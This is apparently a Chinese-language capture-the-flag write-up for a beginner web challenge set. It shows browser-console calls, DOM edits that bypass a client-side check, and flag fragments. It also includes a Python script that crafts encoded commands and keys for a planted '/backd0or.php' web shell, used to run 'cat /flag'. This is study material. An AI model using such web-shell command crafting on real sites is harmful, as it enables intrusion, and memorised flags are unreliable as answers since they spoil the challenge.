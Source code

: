 # Web - week1
## headach3
```sh
curl http://eci-2ze8qyohrl89jdgu7q97.cloudeci1.ichunqiu.com/ --verbose
```
## 会赢吗
F12
flag第一部分：ZmxhZ3tXQTB3，开始你的新学期吧！:/4cqu1siti0n

第二关：
看到一个按钮，想到按钮，一般情况下应该弹个窗才对。查看 `<script>` 部分：
```html
<script>
	async function revealFlag(className) {
		try {
			const response = await fetch(`/api/flag/${className}`, {
				method: 'POST',
				headers: {
					'Content-Type': 'application/json'
				}
			});
			if (response.ok) {
				const data = await response.json();
				console.log(`恭喜你！你获得了第二部分的 flag: ${data.flag}\n……\n时光荏苒，你成长了很多，也发生了一些事情。去看看吧：/${data.nextLevel}`);
			} else {
				console.error('请求失败，请检查输入或服务器响应。');
			}
		} catch (error) {
			console.error('请求过程中出现错误:', error);
		}
	}

	// 控制台提示
	console.log("你似乎对这门叫做4cqu1siti0n的课很好奇？那就来看看控制台吧！");
</script>
```
会向服务器中的 `/api/flag/${className}` 处发送 POST 请求。当前网页是可访问的，发个 POST 试试。
在 Console 中输入
```js
revealFlag("4cqu1siti0n")
```

输出：
```
恭喜你！你获得了第二部分的 flag: IV95NF9yM2Fs
……
时光荏苒，你成长了很多，也发生了一些事情。去看看吧：/s34l
```

第三关：
```html
<script>
        document.addEventListener('DOMContentLoaded', function () {
            const form = document.getElementById('seal_him');
            const stateElement = document.getElementById('state');
            const messageElement = document.getElementById('message');

            form.addEventListener('submit', async function (event) {
                event.preventDefault();

  
                if (stateElement.textContent.trim() !== '解封') { // !!!
                    messageElement.textContent = '如何是好？';
                    return;
                }

                try {
                    const response = await fetch('/api/flag/s34l', {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({ csrf_token: document.getElementById('csrf_token').value })
                    });

                    if (response.ok) {
                        const data = await response.json();
                        messageElement.textContent = `第三部分Flag: ${data.flag}, 你解救了五条悟！下一关: /${data.nextLevel || '无'}`;
                    } else {
                        messageElement.textContent = '请求失败，请重试。';
                    }
                } catch (error) {
                    messageElement.textContent = '请求过程中出现错误，请重试。';
                }
            });
        });
    </script>
```

只要让 `stateElement.textContent.trim() == '解封'` 就行了。`stateElement` 是 `Id` 为 `state` 的某个东西。
![[Pasted image 20241027105843.png]]
修改为解封。按下按钮，得：
```
第三部分Flag: MXlfR3I0c1B, 你解救了五条悟！下一关: /Ap3x
```
源码中有 `<noscript>` 标签，将在禁用 js 时显示。
在谷歌的设置中，选择隐私和安全，选择网站设置，找到 JavaScript，禁用当前网站的 JavaScript。
![[Pasted image 20241027111712.png]]
点击无量空处
```
{"flag":"fSkpKcyF9","nextLevel":null}
```
Base64 解密。
## 智械危机
`/robotx.txt`
`/backd0or.php`
脚本：
```python
import base64
import hashlib

# Base64 编码
def base64_encode(data):
    # 将字符串编码为字节
    byte_data = data.encode('utf-8')
    # 进行 Base64 编码
    base64_bytes = base64.b64encode(byte_data)
    # 将结果从字节转换回字符串
    return base64_bytes.decode('utf-8')

# Base64 解码
def base64_decode(base64_data):
    # 将 Base64 字符串转换为字节
    base64_bytes = base64_data.encode('utf-8')
    # 进行解码
    byte_data = base64.b64decode(base64_bytes)
    # 将字节转换回字符串
    return byte_data.decode('utf-8')

# MD5 哈希
def md5_hash(data):
    # 创建一个 md5 对象
    md5 = hashlib.md5()
    # 更新对象，输入数据必须是字节
    md5.update(data.encode('utf-8'))
    # 返回十六进制哈希值
    return md5.hexdigest()

de_cmd = input("Please input a cmd: ")
cmd = base64_encode(de_cmd)
a = cmd[::-1]
b = md5_hash(a)
c = b
key = base64_encode(c)

print("cmd = ", cmd)
print("key = ", key)
```
最终通过命令 `cat /flag` 获得 flag。